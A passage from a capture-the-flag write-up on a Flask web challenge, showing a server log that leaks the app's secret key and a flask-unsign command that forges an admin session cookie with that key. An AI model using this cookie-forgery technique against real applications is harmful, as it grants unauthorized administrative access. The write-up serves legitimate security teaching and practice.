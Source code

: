 ![](https://github.com/siunam321/CTF-Writeups/blob/main/PwnMe-2023-8-bits/images/Pasted%20image%2020230507160033.png)

```
172.17.0.1 - - [07/May/2023 07:59:28] "POST /create HTTP/1.1" 302 -
172.17.0.1 - - [07/May/2023 07:59:28] "GET /articles HTTP/1.1" 200 -
172.17.0.1 - - [07/May/2023 07:59:28] "GET /static/style.css HTTP/1.1" 304 -
no!
<Config {'DEBUG': True, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'SECRET_KEY': 'test', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': None, 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093}>
```

**Then, we can use [`flask-unsign`](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask#flask-unsign) to sign the session cookie with our polluted session key!**
```shell
┌[siunam♥earth]-(~/ctf/PwnMe-2023-8-bits/Web/Anozer-Blog)-[2023.05.07|16:13:44(HKT)]
└> /home/siunam/.local/bin/flask-unsign --sign --cookie "{'user': {'seeTemplate': True, 'username': 'admin'}}" --secret 'test'
eyJ1c2VyIjp7InNlZVRlbXBsYXRlIjp0cnVlLCJ1c2VybmFtZSI6ImFkbWluIn19.ZFdeIw._87tCmpjZdrlwxeR1co-5ziDycg
```

> Note: The `admin` user is not restricted and can see template.

**And change the original one:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/PwnMe-2023-8-bits/images/Pasted%20image%2020230507161704.png)